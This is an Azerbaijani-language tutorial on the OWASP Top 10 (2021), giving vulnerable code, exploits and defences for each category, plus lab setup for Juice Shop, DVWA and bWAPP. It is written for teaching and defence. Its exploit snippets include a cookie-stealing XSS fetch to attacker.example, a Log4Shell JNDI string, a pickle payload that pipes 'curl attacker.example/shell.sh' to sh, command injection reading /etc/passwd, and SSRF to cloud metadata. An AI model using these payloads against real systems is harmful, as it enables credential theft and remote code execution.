

# OWASP Top 10 (2021)

**Open Web Application Security Project (OWASP)** — veb tətbiqlərinin təhlükəsizliyinə dair pulsuz və vendor-neytral materiallar dərc edən qeyri-kommersiya fondudur. Ən məşhur məhsulu **OWASP Top 10**-dur: yüzlərlə təşkilatdan toplanan sorğu və CVE telemetriyası əsasında hər üç-dörd ildən bir yenilənən, veb tətbiqləri üçün ən kritik risklərin sıralanmış siyahısıdır. Təhlükəsizlik komandaları onu pentest çərçivəsini müəyyənləşdirmək üçün, tərtibatçılar "bunu nəzərdən qaçırmadan releasə verməyin" qeyd siyahısı kimi, auditorlar isə hesabatlarda ortaq dil kimi istifadə edirlər.

**2021-ci il buraxılışı** hazırda cari versiyadır və bu dərs məhz onun üzərində qurulub. Bu sətirlər yazıldığı anda **2025-ci il buraxılışı** layihə mərhələsindədir — hazır olanda bəzi sıralamalar dəyişəcək və bir neçə kateqoriya birləşəcək, amma bu gün real engagement, siyasət sənədləri və bug-bounty scope-ları hələ də 2021 siyahısına əsaslanır. 2025 buraxılışı çıxanda onu tam yenidən yazılmış sənəd kimi yox, inkremental yeniləmə kimi qəbul edin: əsas kateqoriyalar (zəif giriş idarəsi, inyeksiya hücumları, konfiqurasiya xətaları) yoxa çıxmayacaq.

Bir incə məqamı dərhal aydınlaşdıraq: Top 10 *başlanğıc setidir*, tam qeyd siyahısı deyil. Top-10 üzrə təmiz skan tətbiqin təhlükəsiz olması demək deyil. Hərtərəfli audit üçün **OWASP Application Security Verification Standard (ASVS)** istifadə olunur; Top 10 — minimum hədd, ASVS — tam hədd.

## Siyahıya ümumi baxış

| Sıra | Kateqoriya | Bir cümlə xülasə | Tipik nümunə |
|---|---|---|---|
| **A01:2021** | Zəif Giriş İdarəsi (Broken Access Control) | İstifadəçi icazəsi olmayan məlumat və ya əmələ çatır | `?userId=1234` dəyişib `5678` edərək başqasının səbətini oxumaq |
| **A02:2021** | Kriptoqrafik Səhvlər (Cryptographic Failures) | Həssas məlumat nəqldə və ya saxlamada zəif qorunur | Şifrələr MD5 ilə saxlanılır; login səhifəsi HTTP üzərindən açılır |
| **A03:2021** | İnyeksiya (Injection) | Etibarsız input sorğu/əmr interpretatoruna düşür | Login formasında `' OR 1=1 --` |
| **A04:2021** | Zəif Dizayn (Insecure Design) | Dizaynın özü səhvdir — yamaq işləmir, yenidən qurmaq lazımdır | Şifrə sıfırlama "gizli sual"lar üzrə |
| **A05:2021** | Konfiqurasiya Xətaları (Security Misconfiguration) | Default parollar, verbose error-lar, istifadə olunmayan servislər | Admin panelində `admin/admin`; qovluq listing açıq |
| **A06:2021** | Zəif və Köhnəlmiş Komponentlər | Məlum CVE-li kitabxanalar işləyir | Log4j 2.14, Struts 2.3, jQuery 1.4 |
| **A07:2021** | Kimlik və Autentifikasiya Səhvləri | Zəif login, sessiya və ya MFA idarəsi | Hesab kilidi yoxdur; sessiya ID URL-də |
| **A08:2021** | Proqram və Məlumat Bütövlüyü Səhvləri | Təchizat zənciri və deserializasiya etibar səhvləri | SolarWinds tipli zəhərlənmiş update; imzasız YAML deserializasiyası |
| **A09:2021** | Jurnal və Monitorinq Səhvləri | Hücum olur, kimsə görmür | 10 000 uğursuz login-dən sonra heç bir xəbərdarlıq gəlmir |
| **A10:2021** | Server-Side Request Forgery (SSRF) | Server hücumçunun göstərdiyi URL-i çəkir | Tətbiqdən `http://169.254.169.254/` çağırıb bulud credential-larını oğurlamaq |

Səhifəni xətti oxuyun, yaxud lazımi kateqoriyaya keçin — hər onu eyni mikrostruktura malikdir: sadə izahat, zəif kod, istismar, müdafiə.

---

### A01:2021 — Zəif Giriş İdarəsi (Broken Access Control)

Giriş idarəsi "kimə nə icazə var" sualıdır. Zəif giriş idarəsi — tətbiqin sorğunu login olmuş istifadəçinin icazələri ilə yenidən yoxlamadan qəbul etməsi deməkdir. Nəticədə login olmuş adi müştəri admin URL-lərinə çata bilər (**vertikal** privilege escalation) və ya başqa müştərinin məlumatını görə bilər (**horizontal** escalation, həm də **IDOR** — Insecure Direct Object Reference kimi tanınır). Bu, praktikada ən tez-tez rast gəlinən veb zəiflikdir, çünki onu daxil etmək asandır: bircə çatışmayan `if user.is_admin:` təhlükəsiz endpoint-i istismar edilən endpoint-ə çevirir.

**Zəif kod (Flask/Python):**

```python
@app.route("/api/invoices/<int:invoice_id>")
@login_required
def get_invoice(invoice_id):
    # Yalnız "login olmusan?" yoxlanılır — "bu invoice sənindir?" heç vaxt
    inv = Invoice.query.get(invoice_id)
    return jsonify(inv.to_dict())
```

**İstismar:**

```
GET /api/invoices/1001  HTTP/1.1       # Alice-in öz invoice-u — OK
GET /api/invoices/1002  HTTP/1.1       # Bob-un invoice-u — yenə qaytarılır (IDOR)
GET /api/invoices/1               HTTP/1.1  # ilk müştəri — sızır
GET /admin/users                  HTTP/1.1  # adi istifadəçi birbaşa admin panelə çatır
```

Əlaqəli pattern — server imzanı yoxlamayanda JWT-nin `role` iddiasını `"user"`-dan `"admin"`-ə dəyişmək, və ya gizli form field-ini `is_admin=0` → `is_admin=1` etmək.

**Müdafiə:**

- **Hər obyekt çəkimində sahibliyi məcbur edin.** `Invoice.query.get(id)` əvəzinə `Invoice.query.filter_by(id=id, owner_id=current_user.id).first_or_404()`.
- **Default deny.** Controller-lər aydın `allow` qərarı tələb etsin — Django REST-in `permission_classes` və ya Rails-in Pundit kimi framework-lər sizi qaydanı açıq yazmağa məcbur edir.
- **Açıq olmayan, təxmin edilə bilməyən ID istifadə edin** (UUIDv4 və ya imzalanmış ID-lər), amma yalnız obskurluğa güvənməyin.
- **JWT imzasını serverdə yoxlayın** və `alg: none`-u heç vaxt qəbul etməyin. Alqoritmi məsələn `RS256`-ya pinləyin.
- **Avtomatlaşdırılmış authz testləri yazın** — A istifadəçisi kimi login olub B-nin hər resursunun 403/404 qaytardığını təsdiqləyin.

---

### A02:2021 — Kriptoqrafik Səhvlər

Əvvəlki adı "Sensitive Data Exposure" idi. Bu kateqoriya məlumatın *qorunmasıdır* — nəqldə (TLS) və saxlamada (hashing/şifrələmə). Səhvlər: məlumat şəbəkədən açıq mətnlə keçir, şifrələr zəif hash-lə saxlanılır, gizli açarlar binary-yə embed edilir, sertifikatlar vaxtı keçmiş və ya self-signed olub səssizcə qəbul edilir. Təsir — açıqlanma: hücumçu şifrə verilənlər bazasını, PII-ni, kart məlumatlarını, tibbi qeydləri götürüb gedir.

**Zəif kod (Node.js / Express):**

```javascript
// Adi MD5 şifrə hash-ı — fəlakətli
const crypto = require("crypto");
function hashPassword(pw) {
    return crypto.createHash("md5").update(pw).digest("hex");
}

// Login səhifəsi HTTP üzərindən açılır
app.listen(80);
```

**İstismar:**

`users` cədvəlinin bir nüsxəsini əldə edən hücumçu (SQLi, backup sızması və s.) rainbow-table və ya hashcat işlədir. `Password1`-in MD5-i mikrosaniyə içində qırılır:

```
hashcat -m 0 hashes.txt rockyou.txt
# 7c6a180b36896a0a8c02787eeafb0e4c:Password1
```

Şəbəkədə isə eyni Wi-Fi-da olan biri Wireshark-da adi HTTP POST-larda `username=alice&password=Pa55word` görür.

**Müdafiə:**

- **Şifrələri yaddaş-intensiv KDF ilə hash edin.** `argon2id` (tövsiyə olunan) və ya cost ≥ 12 olan `bcrypt`. Heç vaxt MD5, SHA-1 və ya adi SHA-256 yox.
- **Hər yerdə TLS.** Yalnız `/login` deyil, hər səhifəni HTTPS üzərindən verin, HSTS əlavə edin: `Strict-Transport-Security: max-age=31536000; includeSubDomains; preload`.
- **PII və kart məlumatlarını saxlamada şifrələyin** — AES-256-GCM, açarlar KMS-də (AWS KMS, Azure Key Vault, HashiCorp Vault), config faylda deyil.
- **Zəif kriptonu söndürün.** TLS 1.0/1.1, RC4, 3DES, SSLv3 qadağan; forward secrecy (ECDHE) məcburi.
- **Sertifikatları rotasiya və monitorinq edin.** Let's Encrypt + avtomatlaşdırma; 14 gündən az qalmış sertifikatlar üzrə xəbərdarlıq.

---

### A03:2021 — İnyeksiya (Injection)

İnyeksiya — etibarsız input sorğu və ya əmrə konkatenasiya olunur və aşağı qatdakı interpretator (SQL, shell, LDAP, XPath, NoSQL, template engine) onu icra edir. 2021 birləşməsi **Cross-Site Scripting (XSS)**-i də bu kateqoriyaya keçirdi — XSS brauzer HTML/JS interpretatoruna inyeksiyadır. Təsir "bazanı dump et"-dən "webapp istifadəçisi kimi shell işə sal"-a, "bu səhifəyə girən hər kəsin sessiya cookie-sini oğurla"-ya qədər uzanır.

**Zəif kod (SQLi, Python):**

```python
# Sətir konkatenasiyası — klassik
username = request.form["username"]
password = request.form["password"]
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
cursor.execute(sql)
```

**İstismar (SQLi):**

```
username = admin' --
password = anything
```

Final sorğu: `SELECT * FROM users WHERE username='admin' --' AND password='anything'` — `--` şifrə yoxlamasını kommentariyaya çevirir və hücumçu admin kimi login olur. Union əsaslı variant `' UNION SELECT username, password FROM users --` hər sətri dump edir.

**Zəif kod (Command injection, Node.js):**

```javascript
const { exec } = require("child_process");
app.get("/ping", (req, res) => {
    exec("ping -c 1 " + req.query.host, (err, out) => res.send(out));
});
```

İstismar: `GET /ping?host=127.0.0.1;cat /etc/passwd` — shell əvvəl `ping`, sonra `cat` icra edir.

**Zəif kod (Stored XSS, PHP):**

```php
// İstifadəçi comment yazır; sayt onu xam geri əks etdirir
echo "<div class='comment'>" . $_POST["comment"] . "</div>";
```

İstismar: comment kimi `<script>fetch("https://attacker.example/c?"+document.cookie)</script>` göndərilir. Gələcəkdə hər ziyarətçi skripti icra edir və sessiya cookie-si exfiltrasiya olunur.

**Müdafiə:**

- **Hər yerdə parametrlənmiş sorğular** — `cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (u, p))`. Driver SQL-i və dəyərləri iki ayrı kanalla göndərir; string escape DB tərəfindədir.
- **ORM istifadə edin** (SQLAlchemy, Django ORM, ActiveRecord, Sequelize) — default olaraq parametrləyirlər. Hər `raw()` / `exec()` qapısına şübhə ilə yanaşın.
- **İstifadəçi input-unu heç vaxt shell-ə ötürməyin.** Python-da `subprocess.run([...], shell=False)` argv list ilə; Node-da `execFile`/`spawn` array ilə, string ilə yox.
- **XSS üçün kontekst-agah çıxış kodlaşdırması** — Jinja / React-də `{{ value }}` avtomatik HTML-encode edir. HTML attribut və URL-lər üçün framework-un uyğun kodlayıcısı.
- **Content Security Policy** — `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-<random>'`. XSS düşsə belə, payload-un xarici `fetch()`-i bloklanır.

Stored XSS hücumunun vizual axını:



---

### A04:2021 — Zəif Dizayn (Insecure Design)

Bu kateqoriya fərqlidir — o patch edilən bug deyil, *dizayn* səhvidir. Əgər şifrə sıfırlama axını "ilk ev heyvanınızın adı nədir?" soruşursa, bu funksiya üzərində nə qədər code review etsəniz də düzələməyəcək — dizayn səhvdir. Zəif dizayn — bu, threat modeling-in atılması və kod yazılmadan əvvəl təhlükəsizlik tələblərinin qeydə alınmamasının nəticəsidir. Bunu rəsmləmə səhvləri kimi refactor etməklə düzəltmək olmaz; yenidən dizayn etmək lazımdır.

**Zəif pattern (şifrə sıfırlama gizli sual vasitəsilə):**

```python
@app.post("/forgot")
def forgot():
    u = User.get(request.form["username"])
    if u.security_answer == request.form["answer"]:
        login_user(u)   # dizayn səviyyəsində təhlükəsizdir
        return redirect("/")
```

**İstismar:**

Alice-in ilk ev heyvanını bilən hücumçu (açıq qeydlər və ya LinkedIn araşdırması) onun şifrəsini sıfırlayır. Kodda bug yoxdur — dizayn sirr olmayan biliyə güvənir. Oxşar nümunələr:

- Server tərəfində maksimum olmayan, 15 nəfərlə limitlənmiş qrup-bron endirimi — bir sorğuda hər kinoteatrda 600 yer bronlanır və şirkət bir günlük gəliri itirir.
- "Hədiyyə kartı + geri qaytarma" axını: ikisi də async işlənir, lock yoxdur — race condition vasitəsilə sonsuz pul.
- İstifadəçiyə öz user record-unun hər field-ini yeniləməyə icazə verən API, o cümlədən `is_admin`.

**Müdafiə:**

- **Hər funksiyanı implementasiyadan əvvəl threat-model edin.** STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) üzrə bir ağ lövhə sessiyası həftələrlə deyil, saatlarla dəyər verən səhvləri tutur.
- **Funksional tələblərlə yanaşı təhlükəsizlik tələblərini yazın.** "Şifrə sıfırlama qeydiyyatlı email-in və ya MFA qurğusunun mülkiyyətini tələb etməlidir" — tələbdir; "hack oluna bilməz" — yox.
- **Referans dizaynlardan istifadə edin** — OWASP ASVS Fəsil 1, NIST 800-63B identifikasiya üçün — axınları özünüz kəşf etmək əvəzinə.
- **Biznes əməliyyatlarını serverdə rate-limit edin**, clientdə yox: istifadəçi başına dəqiqədə maksimum 5 bron, IP başına saatda 2 şifrə sıfırlama.
- **Bədbəxt yolları xəritələyin.** Hər xoşbəxt yol üçün ("istifadəçi bilet alır"), istifadəçinin yalan danışdığı, təkrar etdiyi, yarıda dayandırdığı və ya 10 000 dəfə skriptlə icra etdiyi zaman nə baş verdiyini yazın.

---

### A05:2021 — Konfiqurasiya Xətaları

Yəqin ki, ən asan daxil edilən və ən asan tutulan kateqoriyadır. Tətbiq kodundan kənarda olan hər şeyi əhatə edir: qalmış default credential-lar, istifadəçiyə qayıdan ətraflı stack trace-lər, açıq qovluq listing-i, çalışan istifadəsiz servislər, icazəverici CORS, çatışmayan təhlükəsizlik başlıqları, açıq S3 bucket-ları, produksiyada debug rejimi. Hücumçu 10 000 host skan edir, birində `X-Debug: True` görür və nahara qədər foothold əldə edir.

**Zəif konfiqurasiya (Django):**

```python
# settings.py
DEBUG = True
ALLOWED_HOSTS = ["*"]
SECRET_KEY = "django-insecure-replace-me"
```

Və nginx-də:

```nginx
server {
    listen 80;                      # TLS yox
    root /var/www/app;
    autoindex on;                   # qovluq listing = kəşfiyyat hədiyyəsi
    error_page 500 /debug.html;     # hücumçulara tam stack trace
}
```

**İstismar:**

- `DEBUG=True` olan Django tətbiqində `/nonexistent`-ə dəy → tam stack trace, settings, DB bağlantı sətri.
- `/backups/` aç və `autoindex on;` al → `db_backup_2025-12-01.sql`-i yüklə.
- Jenkins, Tomcat Manager, Grafana və ya router web UI-da `admin/admin` ilə login.
- `/.git/config` çək — bütün repo statik fayl kimi verilir.

**Müdafiə:**

- **Produksiyada debug rejimini söndürün.** `DEBUG=False`, `ALLOWED_HOSTS` konkret siyahıya.
- **Hər default credential-ı staging-dən çıxmadan dəyişin.** Admin UI-lərin (Jenkins, Grafana, RabbitMQ management, DB console-ları) inventarını saxlayın.
- **Təhlükəsizlik başlıqlarını göndərin.** Minimum: `Strict-Transport-Security`, `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `Referrer-Policy: strict-origin-when-cross-origin`, `Permissions-Policy`.
- **İstifadə etmədiyinizi söndürün.** `autoindex off`, sample tətbiqləri silin, istifadə olunmayan DB istifadəçiləri, portlar, prod-da lazım olmayan admin panelləri.
- **Hardening-i avtomatlaşdırın.** Ansible/Terraform baseline-lar, CIS benchmark-ları, `latest` yox `scratch`-dən qurulan konteyner image-ləri. CI-da `nikto`, `testssl.sh`, `trivy config` işlədin.

---

### A06:2021 — Zəif və Köhnəlmiş Komponentlər

Müasir tətbiq üçüncü tərəf kodunun dağının üstündə durur: npm, pip, Maven, NuGet, sistem paketləri, bazis Docker image-lər, runtime. Bu komponentlərdən birinin açıq CVE-si varsa və siz patch etməmisinizsə, siz tranzitiv vərəsəliklə zəifsiniz. Log4j 2.x-dəki **Log4Shell (CVE-2021-44228)** və Apache Struts 2-dəki **CVE-2017-5638** (Equifax sızması) kanonik nümunələrdir — geniş istifadə olunan kitabxanalara qarşı bir sətirlik payload on minlərlə sızma ilə nəticələndi.

**Zəif kod (Log4j ilə Java):**

```java
// Zəif Log4j 2.14 — jurnala düşən hər user input JNDI lookup tətikləyə bilər
logger.info("User-Agent: " + request.getHeader("User-Agent"));
```

**İstismar (Log4Shell):**

```
User-Agent: ${jndi:ldap://attacker.example/Exploit}
```

Log4j `${...}`-i lookup kimi parse edir, hücumçunun LDAP serverinə qoşulur, zərərli Java sinfi yükləyir və icra edir — bir başlıqdan remote code execution.

Oxşar şəkildə, **Struts 2.3.5 – 2.3.31 / 2.5 – 2.5.10** işlədən sayt OGNL ifadəsi ötürən xüsusi hazırlanmış `Content-Type` başlığı ilə RCE-yə istismar olunur.

**Müdafiə:**

- **Canlı inventar saxlayın** (Software Bill of Materials — SBOM) — hər komponent və versiyası. Alətlər: `syft`, `cyclonedx-bom`, GitHub dependency graph.
- **Davamlı skan edin.** `npm audit`, `pip-audit`, OWASP Dependency-Check, Trivy, Snyk, Dependabot, Renovate. Yeni kritik CVE-də build uğursuz olsun.
- **Rəsmi registry-lərdən dəstəklənən, imzalanmış paketlərə üstünlük verin.** Versiyaları mümkün olduqda hash ilə pinləyin (`package-lock.json`, hash-lı `requirements.txt`, `Gemfile.lock`).
- **Vendor advisory və CISA KEV-ə abunə olun** (Known Exploited Vulnerabilities). KEV girişlərini "bu həftə patch et" kimi qəbul edin.
- **Patch mümkün deyilsə, virtual-patch edin.** `${jndi:` sətrini bloklayan WAF qaydası real fix deyil, amma vaxt qazandırır.

---

### A07:2021 — Kimlik və Autentifikasiya Səhvləri

"Sən kimsən?" və "hələ də sənsən?" ətrafında olan hər şey — login-lər, sessiya cookie-ləri, şifrə sıfırlamaları, MFA. Zəif şifrə qaydaları, 10 000 uğursuz cəhddən sonra kilid yoxdur, URL-də sessiya ID, session fixation (login-dən əvvəl aldığın ID login-dən sonra da qalır), admin hesablarında MFA yoxdur, "gizli sual" recovery. MFA və rate-limit olmayan saytlara qarşı **credential stuffing** hücumları 0.5–2% hesabda uğur qazanır — hər populyar servisi monetizə etmək üçün kifayətdir.

**Zəif kod (Express session fixation + zəif siyasət):**

```javascript
app.use(session({
    secret: "s3cr3t",
    resave: false,
    saveUninitialized: true,         // hər ziyarətçi üçün yeni sessiya
    cookie: { secure: false, httpOnly: false }  // JS-ə açıq cookie, TLS tələb yox
}));

app.post("/login", (req, res) => {
    const u = users.find(u => u.name === req.body.u && u.pw === req.body.p);
    if (u) {
        req.session.user = u.name;   // sessiya ID login-də regenerasiya OLUNMUR
        res.redirect("/dashboard");
    }
});
```

**İstismar:**

- Hücumçu saytı ziyarət edir, anonim kimi `SESSIONID=abc123` alır, Alice-i `https://app/login?session=abc123` linkə kliklənməyə məcbur edir. Alice login olur, server eyni ID-ni saxlayır, hücumçu autentifikasiya olunmuş sessiyaya sahib olur.
- HaveIBeenPwned-dan 10M-lik kombinasiya siyahısı ilə credential stuffing — kilid yoxdur, MFA yoxdur, 0.8% uğur = 80 000 hesab.
- `GET /reset?token=000001`-dən `999999`-a qədər — token kiçik artan tam ədəd.

**Müdafiə:**

- **Login-də sessiya ID-ni regenerasiya edin** və privilege dəyişəndə yenidən. Express-də: `req.session.regenerate(...)`. Pre-auth ID-ni öldürün.
- **Hər istifadəçi üçün MFA**, admin-lər üçün məcburi. TOTP (Google Authenticator), WebAuthn/passkey SMS-dən üstündür.
- **Login-ləri rate-limit edin** həm hesab, həm IP səviyyəsində — 5 dəqiqədə 5 uğursuzluq = kilid və ya CAPTCHA. İstifadəçiyə xəbərdarlıq göndərin.
- **Yaygın şifrələri qadağan edin.** HaveIBeenPwned `/range` API-ni inteqrasiya edin — qeydiyyat və dəyişmədə `Password1!` rədd edilir.
- **Cookie-lər: `Secure; HttpOnly; SameSite=Lax`** (yüksək həssaslıqda `Strict`). Sessiya cookie-sində heç vaxt `HttpOnly: false` yox.

---

### A08:2021 — Proqram və Məlumat Bütövlüyü Səhvləri

İki bağlı problem: (1) **təchizat zənciri kompromisi** — kod, plugin və ya update-ləri imza yoxlamadan qəbul edirsiniz, hücumçu boru kəmərini zəhərləyir (**SolarWinds** hücumu 18 000 müştəriyə çatan imzalanmış `SolarWinds.Orion.Core.BusinessLayer.dll` faylına backdoor qoydu); (2) **zəif deserializasiya** — istifadəçidən serializasiya olunmuş obyekt qəbul edib yenidən qurursunuz, deserializator isə deserializasiya zamanı kod icra edən sinifləri qurmağa aldadıla bilər (Python-da `pickle.loads`, Java-da `ObjectInputStream`, PHP-də `unserialize`).

**Zəif kod (Python pickle):**

```python
import pickle, base64
@app.post("/import")
def import_profile():
    blob = base64.b64decode(request.form["data"])
    profile = pickle.loads(blob)    # hücumçu blob-a nəzarət edir -> RCE
    return f"Imported {profile.name}"
```

**İstismar:**

```python
import pickle, base64, os
class RCE:
    def __reduce__(self):
        return (os.system, ("curl attacker.example/shell.sh | sh",))
print(base64.b64encode(pickle.dumps(RCE())).decode())
```

Base64 blob-u göndər, server `pickle.loads` edir və hücumçunun shell-i işə düşür. Java üçün `ysoserial` aləti `ObjectInputStream`-ə qarşı ekvivalent payload-lar generasiya edir.

Təchizat zənciri ekvivalenti: hücumçu PyPI-da `reuests` (`requests`-in yazı səhvi) paketini post-install hook ilə dərc edir, hook mühit dəyişənlərini exfiltrasiya edir; bir tərtibatçı `requirements.txt`-də səhv yazır və CI runner öz AWS açarlarını sızdırır.

**Müdafiə:**

- **Etibarsız məlumatı heç vaxt native deserializator ilə deserializasiya etməyin.** Strukturlaşdırılmış format — JSON + sxem (Pydantic, Zod, JSON Schema) — özbaşına sinifləri instansiya edə bilməz.
- **Artefaktları imzalayın və yoxlayın.** Paket imzaları (cosign / Sigstore), Git commit imzaları, npm provenance. Dependency-ləri hash ilə pinləyin.
- **CI/CD-ni kilidləyin.** Pinləmmiş SHA olmadan üçüncü tərəf action-ları yox; secret-lər iş başına scope-lanmış; release üçün qorunan branch-lar.
- **SBOM + provenance** (SLSA səviyyə 2+). Build-də nə olduğunu və haradan gəldiyini dəqiq bilin.
- **Gözlənilməz dəyişikliklərə** qurulmuş paketlərdə (Falco, Tetragon) və build agent-larından çıxan bağlantılara nəzarət edin.

---

### A09:2021 — Jurnal və Monitorinq Səhvləri

Heç kimin həyəcanlandırmadığı və hamının ehtiyac duyduğu kateqoriya. Jurnallar çatışmır, natamamdır, yalnız lokal saxlanılır (hücumçu çıxarkən silir), monitorinq olunmur və ya anomaliyada xəbərdarlıq vermir — sızma aylarla aşkar edilmədən davam edə bilər. Sənaye üzrə orta detect vaxtı hələ də həftələrlə ölçülür. Bu kateqoriyanın təsiri **hücumu qarşısını almamaqdır** — bu, hücumçu hər şeyi exfiltrasiya edib çıxmadan əvvəl sizin xəbər tutmağınızı təmin etmir.

**Zəif pattern:**

```python
@app.post("/login")
def login():
    u = authenticate(request.form["u"], request.form["p"])
    if u:
        return redirect("/dashboard")
    return "Bad login", 401       # heç nə log-lanmır, metric yox, xəbərdarlıq yox
```

**İstismar:**

Hücumçu gecə ərzində 50 000 credential-stuffing cəhdi işlədir. Heç bir jurnalda heç nə yoxdur. Heç bir xəbərdarlıq gəlmir. Səhər 400 hesab kompromis olunur və dəstəyə "mən bu sifarişi verməmişəm" zəngləri gəlir — aşkarlama mexanizmi budur.

**Müdafiə:**

- **Hər auth hadisəsini log-layın** (uğur, uğursuzluq, kilid, şifrə dəyişmə, MFA qeydiyyatı, privilege dəyişmə) və hər yüksək-dəyər əməliyyatı (admin əməlləri, ödənişlər, icazə verilməsi). İstifadəçi, IP, UA, timestamp, nəticə daxil edin.
- **Jurnalları dərhal kənara göndərin** — mərkəzi SIEM (Splunk, Elastic, Wazuh, Loki + Grafana). Yalnız lokal jurnallar host kompromis olandan sonra yararsızdır.
- **Hədlərdə xəbərdarlıq.** İstifadəçi başına 10 dəqiqədə >10 uğursuz login; yeni ölkədən hər admin login-i; hər 5xx sıçrayışı; qeyri-adi IP-dən `/.git/`, `/.env`, `/admin`-ə çatmaq.
- **Strukturlaşdırılmış jurnallar** (JSON) — belə ki, `level=warn AND path="/login" AND status=401 | stats count by ip` sorğusu triviyaldır.
- **Aşkarlamanı uçdan-uca test edin.** ZAP və ya pentest skan işlədin, xəbərdarlıqların işlədiyini təsdiqləyin. Əgər pentest heç bir xəbərdarlıq yaratmırsa, monitorinq sınıqdır.

---

### A10:2021 — Server-Side Request Forgery (SSRF)

SSRF — server *istifadəçinin verdiyi* URL-i harda olduğunu yoxlamadan çəkir. Hücumçu onu daxili servislərə (`http://10.0.0.5/`), bulud metadata servislərinə (`http://169.254.169.254/latest/meta-data/iam/security-credentials/`) və ya localhost admin interfeyslərinə (`http://127.0.0.1:8500/`) yönəldir. Bulud VM-lərində bu adətən instance-ın IAM credential-larını sızdırır — bir HTTP sorğusu ilə bulud hesabına tam pivot. **Capital One 2019 sızması** məhz EC2 metadata-dan IAM credential-larını çəkən SSRF idi.

**Zəif kod (Node.js):**

```javascript
const fetch = require("node-fetch");
app.get("/proxy", async (req, res) => {
    const r = await fetch(req.query.url);     // hücumçu url-ə nəzarət edir
    res.send(await r.text());
});
```

**İstismar:**

```
GET /proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/app-role
GET /proxy?url=http://localhost:6379/           # Redis admin interfeysi
GET /proxy?url=file:///etc/passwd               # file sxemi
GET /proxy?url=http://10.0.0.5:8080/admin       # daxili servis
```

Cavabda müvəqqəti AWS credential-ları — hücumçu indi tətbiqin role-u ilə eyni bulud icazələrinə malikdir.

**Müdafiə:**

- **Çıxış istiqamətlərini allow-list edin** — "bu funksiya yalnız `api.example.local` və `api.partner.com` çağıra bilər", qalan hər şey rədd edilir. Rədd DNS həllindən sonra həll olunmuş IP-də baş verməlidir, host adı üzərində deyil (DNS rebinding host adı yoxlamasını məğlub edir).
- **Bulud metadata servisini** (`169.254.169.254`) egress firewall və ya VPC səviyyəsində bloklayın. AWS-də ən sadə SSRF pattern-lərini yumşaldan **IMDSv2** (session-token) tələb edin.
- **RFC1918 və loopback-i** tətbiqin çıxış yolundan bloklayın, açıq tələb olunmayanda. Eyni şey `169.254.0.0/16`, `::1`, `fc00::/7` üçün.
- **Təhlükəli URL sxemlərini söndürün** (`file://`, `gopher://`, `dict://`, `ftp://`). `https://`-ə (və ciddi tələb olduqda `http://`-ə) məhdudlaşdırın.
- **Şəbəkə zonalarını ayırın.** Veb tətbiq database və admin interfeyslərə IP səviyyəsində çatmamalıdır — söhbət edəcək heç nə yoxdursa, SSRF çox az dəyərlidir.

---

## Praktika — zəif laboratoriya qurulumu

Bunların üçü də bilərəkdən zəif şəkildə göndərilir — onları VM, ev laboratoriyası və ya scratch bulud instansında işlədin, real məlumatı olan maşında heç vaxt yox.

### OWASP Juice Shop

Bütün Top 10-u əhatə edən müasir, JavaScript single-page zəif mağaza. Başlamaq üçün ən sürətlisi.

```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop
# sonra http://localhost:3000
```

Restart-lar arası proqresi saxlamaq üçün:

```bash
docker volume create juiceshop-data
docker run -d --name juiceshop \
    -p 3000:3000 \
    -v juiceshop-data:/juice-shop/data \
    bkimminich/juice-shop
```

### DVWA — Damn Vulnerable Web Application

Tənzimlənə bilən çətinlikli klassik PHP/MySQL təlim tətbiqi (Low / Medium / High / Impossible — hər səviyyə əvvəlki istismarı bağlayan müdafiəni göstərir).

```bash
docker run --rm -it -p 8080:80 vulnerables/web-dvwa
# default admin/password, sonra Setup -> Create Database
```

### bWAPP — Buggy Web Application

DVWA və Juice Shop-un atladığı ağır hallar da daxil, 100-dən çox etiketlənmiş zəiflik.

```bash
docker run --rm -d -p 8888:80 raesene/bwapp
# http://localhost:8888/install.php sonra bee/bug
```

### Tamamlamaq üçün üç tapşırıq

1. **Juice Shop login-də SQLi** — `/#/login`-ə keçin, `email=' OR 1=1--` və istənilən şifrə göndərin. Siz ilk istifadəçinin (adətən `admin@juice-sh.op`) hesabına düşürsünüz. Bonus: Burp ilə sorğunu yenidən yazın və `admin@juice-sh.op'--` sınayın.
2. **Comment/review field-ində stored XSS** — Juice Shop-da bir neçə yerdə var. Məhsul səhifəsindən `<iframe src="javascript:alert(\`xss\`)">` içərən review əlavə edin. Məhsulu yenidən yükləyəndə hər ziyarətçi üçün payload işə düşür.
3. **Basket endpoint-də IDOR** — A istifadəçisi kimi login olun, DevTools → Network aç → səbətə məhsul əlavə et, `PUT /api/BasketItems/<id>` və ya `GET /rest/basket/<id>` çağırışını tap. Eyni sorğunu öz sessiya cookie-nizlə amma fərqli basket ID ilə təkrarlayın (sizin səbətiniz `1`; `2`, `3` sınayın). Juice Shop `/rest/basket/<id>` başqasının səbətini qaytarır.

Hər tapşırıq yuxarıdakı kateqoriyalardan birinə uyğundur — SQLi → A03, stored XSS → A03, IDOR → A01.

---

## İşlənmiş nümunə — `example.local` daxili veb tətbiqi

